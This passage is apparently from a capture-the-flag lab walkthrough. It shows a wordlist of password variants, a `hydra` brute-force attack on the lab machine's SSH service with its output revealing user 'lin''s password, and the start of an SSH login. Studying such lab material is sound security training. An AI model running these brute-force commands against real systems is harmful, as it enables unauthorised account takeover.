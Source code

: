 ```
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
- Seems to be a bunch of passwords.
- We can brute force SSH using the `hydra` utility.
```
$ hydra -l lin -P locks.txt 10.10.245.97 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-06 16:48:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.245.97:22/
[22][ssh] host: 10.10.245.97   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-06 16:48:12
```
- So the password for the `lin` user is `RedDr4gonSynd1cat3`.
## Answer
```
RedDr4gonSynd1cat3
```

## Question
> user.txt
- Let's login using the credentials we have.
```
$ ssh lin@10.10.245.97  
The authenticity of host '10.10.245.97 (10.10.245.97)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.245.97' (ED25519) to the list of known hosts.
lin@10.10.245.97's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

```